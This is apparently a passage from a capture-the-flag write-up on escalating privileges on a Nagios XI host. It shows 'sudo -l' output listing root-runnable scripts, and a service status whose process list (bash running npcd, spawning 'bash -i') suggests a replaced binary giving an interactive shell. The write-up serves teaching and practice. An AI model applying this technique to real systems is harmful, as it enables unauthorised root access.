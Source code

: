 **PRIVILEGE ESCALATION**

```
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

I focused on **`/usr/local/nagiosxi/scripts/manage_services.sh.`**

```
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh status npcd                                                                         
<cal/nagiosxi/scripts/manage_services.sh status npcd                                                                                                        
● npcd.service - Nagios Process Control Daemon                                                                                                              
     Loaded: loaded (/etc/systemd/system/npcd.service; enabled; vendor preset: enabled)                                                                     
     Active: active (running) since Wed 2024-01-17 06:12:38 EST; 4h 54min ago                                                                               
   Main PID: 68029 (npcd)                                                                                                                                   
      Tasks: 2 (limit: 4661)
     Memory: 968.0K
        CPU: 28ms
     CGroup: /system.slice/npcd.service
             ├─68029 /bin/bash /usr/local/nagios/bin/npcd -f /usr/local/nagios/etc/pnp/npcd.cfg
             └─68030 bash -i
```

